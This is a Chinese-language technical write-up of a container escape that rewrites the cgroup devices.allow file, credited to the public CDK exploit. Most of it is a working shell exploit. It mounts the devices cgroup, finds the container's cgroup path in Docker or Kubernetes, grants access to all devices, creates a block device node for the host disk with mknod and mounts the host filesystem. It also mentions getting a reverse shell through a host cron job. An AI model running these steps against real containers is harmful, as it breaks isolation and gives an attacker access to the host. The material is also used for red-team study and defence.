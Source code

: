 # 重写devices.allow逃逸方式原理

## 公开的EXP
CDK：[Exploit: rewrite cgroup devices](https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices)

## devices.allow
devices子系统用于配制允许或者阻止cgroup中的task访问某个设备，起到黑白名单的作用，主要包含以下文件
1. devices.allow：cgroup中的task能够访问的设备列表，格式为type major:minor access
   * type表示类型,可以为 a(all), c(char), b(block）
   * major:minor代表设备编号，两个标号都可以用*代替表示所有，比如*:*代表所有的设备
   * accss表示访问方式，可以为r(read),w(write), m(mknod)的组合
2. devices.deny：cgroup 中任务不能访问的设备，和上面的格式相同
3. devices.list：列出 cgroup 中设备的黑名单和白名单

我们在容器中将devices子系统挂载在/tmp/dev/下那么容器本身的配置在以下位置:

1. 在docker环境下，容器自身的devices.allow路径为：`/tmp/dev/docker/[container_id]/devices.allow`，container id可以通过以下命令获得:`cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'`
2. 在k8s环境中，`/tmp/dev/kubepods.slice/kubepods-burstable.slice/`目录下包含当前宿主机所有pod目录大致为kubepods-burstable-pod[id].slice，这个目录下包含是pod中每个container的相关配置，可以通过查看所有挂载找到当前容器所在的位置，执行`mount -l | grep kubepods`,类似如下内容：
   ```shell
   cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd)
   ```
   那么容器自身的devices.allow路径为：
   ```
   /tmp/dev/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope/devices.allow
   ```
通过在devices.allow写入a相当于写入a *:* rwm，允许对所有设备进行read/write/mknod操作

## 利用原理

1. 创建空目录挂载cgroup devices子系统
2. 确定当前容器对应的子cgroup位置
3. 设置其devices.allow文件为a
4. 获得宿主机的设备major和minor
5. 通过mknod根据设备major和minor手动创建设备文件
6. 利用debugfs或直接挂载设备文件访问宿主机文件
7. 设置宿主机定时任务等方式反弹shell

EXP和解释如下：
```shell
# 步骤1
mkdir /tmp/dev && mount -t cgroup -o devices devices /tmp/dev

# 步骤二
##  如果是k8s环境
mount -l | grep kubepods
# cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd)
cd /tmp/dev/kubepods.slice/kubepods-burstable.slice/kubepods-burstable-podd48471c8_48de_11eb_9ca9_246e96cd3098.slice/docker-014c16f0839f7274ec5075332576435c254c214cdc21ca0cec361ad6749aef1a.scope
## 如果是docker环境
cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'
# 62b8e246d01e978a2cf671a4e67b49782401bd647ae87ad967553598bce7108c
cd /tmp/dev/docker/62b8e246d01e978a2cf671a4e67b49782401bd647ae87ad967553598bce7108c

# 步骤三
echo a > devices.allow && cd /tmp

# 步骤四
cat /proc/self/mountinfo | grep /etc | awk '{print $3,$8}' | head -1
# 253:0 xfs

# 步骤五
mknod host b 253 0

# 步骤六
## 步骤四会输出major和minor和文件系统类型，如果是ext2/ext3/ext4文件系统可以用debugfs直接看目录，如果是xfs文件系统debugfs不支持，直接挂载看就可以
mkdir /tmp/host_dir && mount host /tmp/host_dir
```

![](media/16336790749925/16337874367956.jpg)


## 参考文档
1. [Device Whitelist Controller](https://www.kernel.org/doc/Documentation/cgroup-v1/devices.txt)
2. [红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)
3. [Exploit:-rewrite-cgroup-devices](https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices)
